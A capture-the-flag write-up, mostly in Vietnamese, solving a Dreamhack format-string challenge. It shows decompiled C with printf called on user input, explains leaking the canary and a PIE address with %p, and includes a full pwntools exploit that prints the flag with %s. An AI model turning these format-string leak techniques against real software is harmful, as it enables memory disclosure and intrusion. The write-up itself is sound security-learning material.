





# Decription

[](https://dreamhack.io/wargame/challenges/2089)

# Source

```c
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // [rsp+4h] [rbp-4Ch] BYREF
  __int64 v4; // [rsp+8h] [rbp-48h] BYREF
  char format[8]; // [rsp+10h] [rbp-40h] BYREF
  __int64 v6; // [rsp+18h] [rbp-38h]
  __int64 v7; // [rsp+20h] [rbp-30h]
  _QWORD v8[4]; // [rsp+30h] [rbp-20h] BYREF

  v8[3] = __readfsqword(0x28u);
  v3 = 0;
  v4 = 0LL;
  *(_QWORD *)format = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  memset(v8, 0, 24);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  initial();
  puts("Welcome to format string lab!");
  while ( 1 )
  {
    print_menu();
    __isoc99_scanf("%d", &v3);
    printf("Input format string : ");
    __isoc99_scanf("%20s", format);
    if ( v3 == 1 )
    {
      printf("Input integer : ");
      __isoc99_scanf("%llu", &v4);
      printf(format, v4);
    }
    else if ( v3 == 2 )
    {
      printf("Input string: ");
      __isoc99_scanf("%20s", v8);
      printf(format, v8);
    }
    else
    {
      puts("Invalid input!");
    }
    putchar(10);
  }
}

int initial()
{
  FILE *stream; // [rsp+8h] [rbp-8h]

  stream = fopen("flag.txt", "rt");
  if ( !stream )
  {
    puts("[!] Flag file error. Please ask to Rootsquare...");
    exit(1);
  }
  __isoc99_fscanf(stream, "%s", &flag);
  return fclose(stream);
}

int print_menu()
{
  puts("1. Integer");
  puts("2. String");
  return printf("> ");
}
```

# Problem

Nhìn trong code dễ thấy có lỗi format-string.

Có đến 2 chỗ là lỗi format-string -> Khả năng là leak 2 địa chỉ nào đó.

CÙng dùng gdb để xem chi tiết hơn nào.

# Solve

GDB:

checksec



Hmm. GDB báo về cho tôi là không có canary nhưng trong source code có check canary.

Để ý kỹ hơn thì canary có 4 phần tử và nó chỉ check cái cuối cùng -> Vẫn có canary.



Ta cũng thấy có hàm đọc flag vào biến flag nhưng không in nó ra -> flag có trên stack và ta có thể leak nó ra.

PIE bật nên chúng ta cần địa chỉ exe base.

Vậy chúng ta cần leak địa chỉ exe và tính exe base sau đó tính địa chỉ của flag.

exe_base = exe_leak - offset_base.
flag = exe_base + offset_flag.


Các offset thì ta tính trực tiếp trong gdb.

```c
sla(b'> ', b'1')
sla(b'string : ', b'%19$p')
sla(b'integer : ', b'1'*11)

leak = p.recvline().strip()
exe_leak = int(leak, 16)
log.info('Exe leak: '+ hex(exe_leak))
```


```c
flag = exe_leak + 11799
log.info('Flag leak: '+ hex(flag))
```

Vậy ta đã có địa chỉ của flag rồi. Dùng %s để in ra nội dung của địa chỉ đó -> done.
```c
sla(b'> ', b'1')
sla(b'string : ', b'%s')
sla(b'integer : ', str(flag).encode())
```



# Full script

```c
#!/usr/bin/env python3

from pwn import *

exe = ELF('main', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
b* main+274
b* main+363
b* main+436
b* main+180

        c
        ''')
        input()


if args.REMOTE:
    p = remote('localhost', 5000)
else:
    p = process([exe.path])
GDB()

sla(b'> ', b'2')
sla(b'string : ', b'%15$p')
sla(b'string: ', b'a'*20)

leak = p.recvline().strip()
canary_leak = int(leak, 16)
log.info('Canary leak: '+ hex(canary_leak))


sla(b'> ', b'1')
sla(b'string : ', b'%19$p')
sla(b'integer : ', b'1'*11)

leak = p.recvline().strip()
exe_leak = int(leak, 16)
log.info('Exe leak: '+ hex(exe_leak))

flag = exe_leak + 11799
log.info('Flag leak: '+ hex(flag))

sla(b'> ', b'1')
sla(b'string : ', b'%s')
sla(b'integer : ', str(flag).encode())

p.interactive()
```
